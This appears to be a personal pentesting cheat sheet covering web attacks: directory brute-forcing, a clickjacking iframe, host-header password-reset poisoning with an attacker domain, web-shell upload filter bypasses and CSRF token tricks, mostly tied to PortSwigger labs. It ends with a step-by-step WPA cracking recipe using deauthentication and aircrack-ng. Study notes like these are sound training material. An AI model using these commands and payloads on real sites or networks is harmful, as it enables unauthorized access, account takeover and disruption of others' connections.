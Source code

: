 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# Host Header Poisoning
## Basic
	Change "Host" header 

## via middleware
	Add X-Forwarded-Host: <domain.com>
	https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
	
## via dangling markup
	Try "Host: domain.com" to "Host: domain.com:attacker.com"
	https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup
	
# RCE
## Basic
	Upload Php File
	
## via Content-Type restriction bypass
	Change "Content-Type" header
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
	
## via path traversal
	Change file name "test.php" to "..%2ftest.php"
	https://www.youtube.com/watch?v=4R3PUhiFzS4
	
## via obfuscated file extension
	change file name filename="exploit.php%00.jpg"
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension
	
## via race condition
	https://www.youtube.com/watch?v=mt0BN5pYHXI
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
	
# CSRF
## CSRF parameter is not available
	---> generate CSRF POC and try

## CSRF parameter available 

	-> Change action METHOD (GET OR POST)

	-> Remove CSRF parameter
	eg. email and CSRF
	remove CSRF
	now> email

	-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



	1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
	    Make a note of the value of the CSRF token, then drop the request.
	2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
	3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
	4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
	    Store the exploit, then click "Deliver to victim" to solve the lab.


	->if CSRF key cookies and CSRF token are available

	https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

	->if header error occure
	1) so try remove header
	https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

	2) if header remove not work try changing domain like
	refrer: http://google.com
	to
	http://burpsuit/?google.com
	https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

	Step 1:

	Put your wireles lan card on monitor mode

	 airmon-ng start "wireless lan card name"
	=> airmon-ng start wlan0

	Step 2:

	Capture Traffic with Airodump-ng

	airodump-ng "wireless lan card monitor mode"

	=> airodump-ng wlan0mon


	Step 3:

	Focus airodump-ng on one AP on One Channel

	 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

	=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


	Step 4:

	in order to capture the encrypted password we need to have the client authenticate against AP.
	we do deauth signal to client

	 aireplay-ng --deauth 1000 -a bssid wlan0mon

	=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


	Step 5:

	Now we have to crack the dump file with aircrack-ng

	 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
